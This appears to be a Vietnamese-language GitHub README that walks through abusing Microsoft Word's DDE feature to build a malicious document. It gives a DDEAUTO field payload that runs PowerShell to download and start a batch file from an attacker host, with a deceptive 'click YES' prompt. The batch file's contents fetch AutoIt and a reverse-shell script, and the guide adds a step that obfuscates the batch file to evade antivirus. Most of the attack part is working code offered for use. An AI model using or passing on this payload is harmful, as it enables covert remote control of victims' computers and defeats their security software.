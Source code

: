 # Lạm dụng TÍNH NĂNG hợp pháp của Microsoft Word để thực thi mã độc bất hợp pháp
> Mô tả: Lạm dụng tính năng DDE - Dynamic Data Exchange của Office, cho phép ứng dụng Office tải dữ liệu từ các ứng dụng Office khác. Từ đó, thay vì chèn dữ liệu hợp pháp thì chèn dữ liệu độc hại. ***Ví dụ: file Word có thể cập nhật dữ liệu table bằng cách kéo dữ liệu từ tệp Excel mỗi khi tệp Word được mở.***

Như vậy, DDE có khả năng cho phép file Word mỗi khi được mở, có thể thực thi đoạn mã đang được lưu trữ trong một file khác và cho phép các ứng dụng đó có thể gửi bản cập nhật dữ liệu mới.

Dữ liệu độc hại được thực thi ở đây là 1 câu lệnh sẽ được hiện trên máy victim. Câu lệnh này sẽ tải 1 tập lệnh Batch được host trên máy attack về, và tự động thực thi trên máy victim. Tập lệnh Batch có chức năng giúp attacker tạo 1 reverse shell từ máy victim. Tập lệnh Batch sẽ được mã hóa để bypass hoàn toàn Windows Defender.

Lưu ý: DDE hoàn toàn là 1 TÍNH NĂNG, không phải là lỗ hổng. 

## Thực thi

1. Mở file Word lên, vào Insert -> Quick Parts -> Field…
2. Sẽ có 1 bảng hiện ra, tiến hành click double vào ” = (Formula ) ”
3. 1 dòng chữ sẽ hiện ra, chuột phải vào, chọn “Toggle Field Codes”
4. Thay đổi nội dung như sau: 
```console
{DDEAUTO "C:\\windows\\system32\\cmd.exe /k powershell -NoP -NonI -Exec Bypass IEX (New-Object System.Net.WebClient).DownloadFile('http://192.168.2.39:1113/RVSo.bat', 'RVSo.bat');start 'RVSo.bat' # " "for security reasons click YES"}
```
### Nội dung của file RVSo.bat
```bat
@echo

cd %temp%

curl http://192.168.2.39:1113/autoit/AutoIt3.exe > autoit.exe

curl http://192.168.2.39:1113/autoit/RVS.a3x > reverseShell.a3x
autoit.exe reverseShell.a3x
```
Dùng tool [này](https://github.com/thotrangyeuduoi/toolWin/blob/master/obfuscator.cmd) để mã hóa file RVS.bat nhằm bypass AntiVirus
```cmd
C:\User\Document\obfucator.cmd RVS.bat
```
### File liên quan

[ReverseShell.au3](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/Attach%20malicious%20code%20to%20a%20legitimate%20WORD%20file/ReverseShell_by_Autoit.au3)

Ref: https://anonyviet.com/cach-hacker-bypass-av-xam-nhap-windows-voi-autoit/

https://anonyviet.com/phuong-phap-phat-tan-virus-bang-file-word/